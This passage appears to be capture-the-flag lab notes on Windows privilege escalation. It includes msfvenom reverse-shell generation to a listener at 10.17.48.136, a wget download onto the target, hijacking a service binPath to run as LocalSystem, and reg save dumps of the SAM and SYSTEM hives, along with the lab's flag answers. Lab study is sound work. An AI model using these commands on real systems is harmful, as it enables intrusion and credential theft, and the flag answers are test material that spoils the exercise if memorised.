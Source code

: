 ```shell
cd C:\tools\AccessChk

#using Accesschk tool we can check service DACL (Discretionary Access Control List)
accesschk64.exe -qlc thmservice

msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.17.48.136 LPORT=4447 -f exe-service -o rev-svc3.exe

python3 -m http.server

nc -lvp 4447

#in target machine PowerShell
wget http://10.17.48.136:8000/rev-svc3.exe -O rev-svc3.exe
```

```shell
#in target machine
icacls C:\Users\thm-unpriv\rev-svc3.exe /grant Everyone:F
#grant executable permissions

sc config THMService binPath= "C:\Users\thm-unpriv\rev-svc3.exe" obj= LocalSystem
#change service's associated executable and account

sc stop thmservice

sc start thmservice
#this gives shell access
#flag can be found in Admin's desktop
```

```markdown
1. Get the flag on svcusr1's desktop. - THM{AT_YOUR_SERVICE}

2. Get the flag on svcusr2's desktop. - THM{QUOTES_EVERYWHERE}

3. Get the flag on the Administrator's desktop. - THM{INSECURE_SVC_CONFIG}
```

## Abusing Dangerous Privileges

```shell
#on Windows, cmd.exe as Admin

whoami /priv
#to check user privileges

reg save hklm\system C:\Users\THMBackup\system.hive
#backup SAM and SYSTEM hashes
reg save hklm\sam C:\Users\THMBackup\sam.hive
```

* SeBackup/SeRestore privilege allow users to read and write any file in the system.
